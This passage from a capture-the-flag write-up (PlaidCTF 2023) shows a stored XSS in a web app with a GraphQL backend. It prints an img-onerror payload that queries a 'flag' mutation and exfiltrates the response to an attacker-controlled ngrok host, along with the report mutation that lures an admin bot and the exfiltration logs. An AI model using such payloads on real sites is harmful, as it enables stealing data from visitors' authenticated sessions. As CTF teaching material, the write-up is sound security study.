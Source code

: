 Nice!! We got stored XSS!!

### Exploitation

Now, we need to build a payload that fetches the flag, which is the GrahpQL endpoint's `flag` mutation query.

**XSS Payload:**
```html
<img src=x onerror="async function postData() {
const data = { 'query': 'mutation { flag }' };
const response = await fetch('https://987a-{Redacted}.ngrok-free.app/graphql', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify(data)
});
const text = await response.text();
fetch('https://987a-{Redacted}.ngrok-free.app/?d=' + text);
}; postData();">
```

> Note: I tried to use `<script>` element, but it wouldn't work for me, weird.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230415223913.png)

When someone visit our user profile, it'll send a request to GrahpQL endpoint, which should returns the flag if the user is admin. Finally, exfiltrate the flag to our controlled environment.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230415223944.png)

```
client_1    | 172.21.0.1 - - [15/Apr/2023:14:39:23 +0000] "GET /?d=\{%22errors%22:[\{%22message%22:%22Not%20logged%20in%22,%22locations%22:[\{%22line%22:1,%22column%22:12}],%22path%22:[%22flag%22],%22extensions%22:\{%22code%22:%22INTERNAL_SERVER_ERROR%22}}],%22data%22:\{%22flag%22:null}} HTTP/1.1" 200 366 "https://987a-{Redacted}.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" "{Redacted}"
```

Nice!

**Now, we need to send our user profile URL to the `report` GrahpQL endpoint!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230415224101.png)

> Note: Anyone can view users' profile.

**GrahpQL `report` payload:**
```json
{ "query": "mutation { report(url: \"https://987a-{Redacted}.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f\") }" }
```

However, it didn't retrieve the flag...

```
client_1    | 172.21.0.1 - - [15/Apr/2023:14:43:54 +0000] "GET /?d=\{%22errors%22:[\{%22message%22:%22Not%20logged%20in%22,%22locations%22:[\{%22line%22:1,%22column%22:12}],%22path%22:[%22flag%22],%22extensions%22:\{%22code%22:%22INTERNAL_SERVER_ERROR%22}}],%22data%22:\{%22flag%22:null}} HTTP/1.1" 200 366 "https://987a-{Redacted}.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.49 Safari/537.36" "{Redacted}"
```
